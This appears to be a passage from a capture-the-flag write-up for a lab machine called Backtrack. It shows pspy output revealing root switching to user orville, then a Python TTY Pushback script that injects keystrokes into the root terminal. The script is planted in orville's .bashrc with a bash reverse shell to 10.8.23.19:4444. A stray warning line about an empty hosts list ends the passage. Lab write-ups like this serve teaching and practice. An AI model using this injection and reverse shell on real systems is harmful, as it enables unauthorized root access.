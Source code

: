 Now that we have `pspy64` we can run it.
```bash
orville@Backtrack:/tmp$ ./pspy64 
<SNIP>
2024/10/14 14:20:03 CMD: UID=0     PID=41634  | sshd: root@pts/3     
2024/10/14 14:20:03 CMD: UID=0     PID=41635  | -bash 
2024/10/14 14:20:03 CMD: UID=0     PID=41636  | -bash 
2024/10/14 14:20:03 CMD: UID=0     PID=41638  | -bash 
2024/10/14 14:20:03 CMD: UID=0     PID=41637  | -bash 
2024/10/14 14:20:03 CMD: UID=0     PID=41639  | -bash 
2024/10/14 14:20:03 CMD: UID=0     PID=41640  | /bin/sh /usr/bin/lesspipe 
2024/10/14 14:20:03 CMD: UID=0     PID=41642  | /bin/sh /usr/bin/lesspipe 
2024/10/14 14:20:03 CMD: UID=0     PID=41641  | /bin/sh /usr/bin/lesspipe 
2024/10/14 14:20:03 CMD: UID=0     PID=41645  | su - orville 
2024/10/14 14:20:03 CMD: UID=1003  PID=41646  | su - orville 
2024/10/14 14:20:03 CMD: UID=1003  PID=41647  | -bash 
2024/10/14 14:20:03 CMD: UID=1003  PID=41648  | -bash 
2024/10/14 14:20:03 CMD: UID=1003  PID=41650  | -bash 
2024/10/14 14:20:03 CMD: UID=1003  PID=41649  | -bash 
2024/10/14 14:20:03 CMD: UID=1003  PID=41651  | -bash 
2024/10/14 14:20:04 CMD: UID=1003  PID=41652  | /bin/sh /usr/bin/lesspipe 
2024/10/14 14:20:04 CMD: UID=1003  PID=41654  | /bin/sh /usr/bin/lesspipe 
2024/10/14 14:20:04 CMD: UID=1003  PID=41653  | /bin/sh /usr/bin/lesspipe 
2024/10/14 14:20:04 CMD: UID=1003  PID=41655  | -bash 
2024/10/14 14:20:06 CMD: UID=1003  PID=41656  | zip -q -r /home/orville/web_snapshot.zip /var/www/html/css /var/www/html/dashboard.php /var/www/html/includes /var/www/html/index.php /var/www/html/login.php /var/www/html/logout.php /var/www/html/navbar.php /var/www/html/register.php /var/www/html/shell.png.php /var/www/html/uploads 
2024/10/14 14:20:11 CMD: UID=1003  PID=41658  | 
<SNIP>
```

We will notice that the root user SSH to the system runs `su - orville` to impersonate Orville and perform a zip operation. The `su` command was used without the `-P` option indicating that no pseudo-terminal was created and Orville shares a terminal with the original session (root session). This might be vulnerable to the [TTY Pushback](https://www.errno.fr/TTYPushback.html) attack. We can use the Python script below that will kill Orville's session created by the root user and inject commands in the root shell.  
```python
#!/usr/bin/env python3
import fcntl
import termios
import os
import sys
import signal

os.kill(os.getppid(), signal.SIGSTOP)

for char in sys.argv[1] + '\n':
    fcntl.ioctl(0, termios.TIOCSTI, char)
```

For this script to run automatically when the root user impersonates Orville we need to add that will run this script in Orville's `.bashrc` file. The `.bashrc` file is a script file that's executed when a user logs in. We can give it a reverse shell as an argument that will be executed as root.
```bash
orville@Backtrack:/home/orville$ nano shell.py
orville@Backtrack:/home/orville$ echo "python3 shell.py \"bash -c 'bash -i >& /dev/tcp/10.8.23.19/4444 0>&1'\"" >> .bashrc
```


[WARNING]: provided hosts list is empty, only localhost is available. Note that